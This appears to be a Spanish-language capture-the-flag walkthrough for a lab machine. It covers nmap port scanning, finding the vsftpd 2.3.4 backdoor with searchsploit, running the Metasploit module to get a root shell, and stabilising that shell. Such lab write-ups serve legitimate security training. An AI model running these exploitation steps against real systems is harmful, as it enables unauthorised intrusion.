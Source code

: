 # FirstHacking (muy fácil)



## Escaneo de puertos

Empezamos escaneando la máquina víctima con **nmap** para ver los puertos que tenga abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-p-`` → Escanea todos los puertos (0-65535).

* ``--open`` → Muestra solo los puertos que están abiertos.

* ``-sT`` → Realiza un escaneo de conexión TCP completa (TCP Connect Scan). Es más lento que el SYN scan (-sS), pero no requiere privilegios de root.

* ``--min-rate 5000`` → Exige que el escaneo se realice con una tasa mínima de 5000 paquetes por segundo, acelerando el proceso.

* ``-vvv`` → Muestra un nivel de detalle muy alto en la salida (modo verbose máximo).

* ``-n`` → No resuelve nombres de dominio (evita consultas DNS).

* ``-Pn`` → No realiza detección de host, asumiendo que el objetivo está activo.

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oG allPorts`` → Guarda la salida en un archivo de texto llamado *allPorts*. **(OPCIONAL)**

![resultado del comando](assets/firsthacking/nmap1.png)

Como puedes ver, solo está abierto el puerto **ftp**. Vamos a escanearlo otra vez con **nmap**, pero esta vez utilizando un conjunto de scripts predeterminado para obtener más información.

```shell
nmap -sCV -p21 172.17.0.2 -oN targeted
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-sC`` → Ejecuta los scripts de detección predeterminados de **nmap** (--script=default). Estos incluyen comprobaciones de vulnerabilidades, autenticación anónima en FTP, etc.

* ``-sV`` → Detecta versiones de los servicios en ejecución en los puertos abiertos.

* ``-p21`` → Escanea únicamente el puerto 21 (FTP).

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oN targeted`` → Guarda la salida en un archivo de texto llamado *targeted*. **(OPCIONAL)**

![resultado del comando](assets/firsthacking/nmap2.png)

Una vez tenemos claro cuales son los puertos vulnerables, pasamos a la acción.
***

## Ataque

De acuerdo a la información obtenida con **nmap**, sabemos que la víctima tiene el puerto **ftp** abierto y que está en la versión **2.3.4**.

Empezamos buscando un **exploit** en [ExploitDB](https://www.exploit-db.com/). Para ello, utilizamos el comando ``searchsploit``.

```shell
searchsploit vsftpd 2.3.4
```

![resultado del comando](assets/firsthacking/searchsploit.png)

¡Parece que a dado resultado! Vemos que hay dos coincidencias.
En realidad, las dos son el mismo exploit, solo que uno está alojado en [Metasploit](https://www.metasploit.com/).

En esta práctica utilizaremos la segunda opción, ya que no hace falta que descarguemos nada.
Para ello, tendremos que abrir primero la consola de **Metasploit**.

```shell
msfconsole
```

![resultado del comando](assets/firsthacking/msfconsole.png)

> Nota: puedes utilizar ``msfconsole -q`` para iniciar en modo silencioso (que no aparezcan mensajes).

Una vez dentro, volvemos a buscar el exploit.

```shell
search vsftpd 2.3.4
```


![resultado del comando](assets/firsthacking/search.png)

Vemos que aparece como la opción 0, por lo que utilizamos el siguiente comando para usarlo.

```shell
use 0
```

Pero aparece un error...

![resultado del comando](assets/firsthacking/use.png)

Vamos a ver el porqué. Para ello utilizamos la opción ``info`` para ver la descripción del exploit.

```shell
info 0
```

Verás que aparecen muchas líneas con información, pero nos centraremos en ***Basic options***.

![resultado del comando](assets/firsthacking/info.png)

¡Claro, nos falta especificar la IP de la víctima!
> Nota: verás que también aparece una variable para establecer el puerto del objetivo, pero en este caso no es necesario, ya que el predeterminado (21) nos sirve.

Utilizando ``set`` podemos darle un valor a las variables que utilicen los exploits.

```shell
set RHOSTS 172.17.0.2
```

Para volver a iniciar el exploit ya solamente hace falta escribir ``exploit``.

```shell
exploit
```

![resultado del comando](assets/firsthacking/exploit.png)

***

## Extra

Te habrás dado cuenta que al estar en la shell, la terminal aparece "vacía". Esto se debe a que necesita tratamiento. Para ello, ejecuta los siguientes comandos:

```shell
script /dev/null -c bash
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

¡Y ya estaría! Si haces ``whoami`` podrás ver como eres **root** :).